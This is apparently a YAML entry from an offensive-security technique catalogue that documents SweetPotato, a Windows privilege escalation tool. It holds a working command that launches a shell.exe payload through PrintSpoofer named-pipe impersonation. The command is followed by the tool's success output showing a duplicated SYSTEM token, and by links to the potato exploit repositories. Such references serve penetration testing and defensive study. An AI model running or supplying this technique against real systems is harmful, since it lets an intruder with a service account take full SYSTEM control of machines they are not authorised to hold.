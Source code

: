 ```yaml
---
functions:
  privilege-escalation:
    - description: A collection of various native Windows privilege escalation techniques from service accounts to SYSTEM
      code: |
        ./SweetPotato.exe -p C:\Users\nathan\Nexus\nexus-3.21.0-05\shell.exe
        SweetPotato by @_EthicalChaos_
          Orignal RottenPotato code and exploit by @foxglovesec
          Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
          PrintSpoofer discovery and original exploit by @itm4n
          EfsRpc built on EfsPotato by @zcgonvh and PetitPotam by @topotam
        [+] Attempting NP impersonation using method PrintSpoofer to launch C:\Users\nathan\Nexus\nexus-3.21.0-05\shell.exe
        [+] Triggering notification on evil PIPE \\billyboss/pipe/6265ea16-b179-4951-a8f7-379aea157d97
        [+] Server connected to our evil RPC pipe
        [+] Duplicated impersonation token ready for process creation
        [+] Intercepted and authenticated successfully, launching program
        [+] Process created, enjoy!


resources: |
  https://github.com/CCob/SweetPotato
  https://github.com/ohpe/juicy-potato
  https://github.com/itm4n/PrintSpoofer
  https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
  https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2
---
```

